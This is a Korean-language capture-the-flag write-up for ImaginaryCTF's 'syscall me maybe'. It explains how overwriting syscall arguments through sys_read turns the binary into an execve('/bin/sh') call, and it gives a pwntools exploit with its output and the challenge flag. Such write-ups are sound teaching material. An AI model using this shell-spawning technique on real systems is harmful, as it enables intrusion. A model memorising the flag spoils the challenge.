


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



첨부파일

[syscall_me_maybe_](https://github.com/2jinu/CTFnWargame/raw/main/CTF/ImaginaryCTF%20Round10/syscall%20me%20maybe/file/syscall_me_maybe_)


# **Write-Up**

해당 바이너리를 IDA를 통해서 확인하면 syscall로만 이루어져 있는 것을 확인할 수 있다.



이때 0x40105A에서 호출하는 syscall의 인자들은 0x401050~0x401059이고, 이는 앞에 나오는 sys_read에서 조작할 수 있다.

flag를 획득하기 위해 shell을 얻을 것이고, 이를 위하여 sys_execve를 활용하면 된다.

|%rax|System call|%rdi|%rsi|%rdx|
|:---:|:---:|:---:|:---:|:---:|
|59|sys_execve|const char *filename|const char *const argv[]|const char *const envp[]|

* [sys call table](https://github.com/2jinu/CTFnWargame/raw/main/CTF/ImaginaryCTF%20Round10/syscall%20me%20maybe/file/sys_call_table.xlsx)


1. rax는 59(0x3B)여야만 sys_execve가 되므로 마지막 sys_read에서는 0x3B를 전달하여야 한다.
2. rdi는 "/bin/sh"을 넣으면 되기 때문에 2번째 sys_read에서 "/bin/sh"을 전달한다.
3. 나머지 sys_read에서는 0x00값만 전달하면 된다.

python코드로 조합한 exploit코드는 다음과 같다.

```py
from pwn import *

p = remote('oreos.imaginary.ml', 13337)

rdx = p64(0x00)
rdi = '/bin/sh'.encode()+b'\x00'
rsi = p64(0x00)
rax = p64(0x3B)

p.send(rdx)
p.send(rdi)
p.send(rsi)
p.send(rax)

p.interactive()

[Output]
[+] Starting local process './syscall_me_maybe': pid 15702
[+] Opening connection to oreos.imaginary.ml on port 13337: Done
[*] Switching to interactive mode
$ cat flag.txt
ictf{Here's_my_flag_sysc4ll_m3_m4yb3}
```

# **FLAG**

**ictf{Here's_my_flag_sysc4ll_m3_m4yb3}**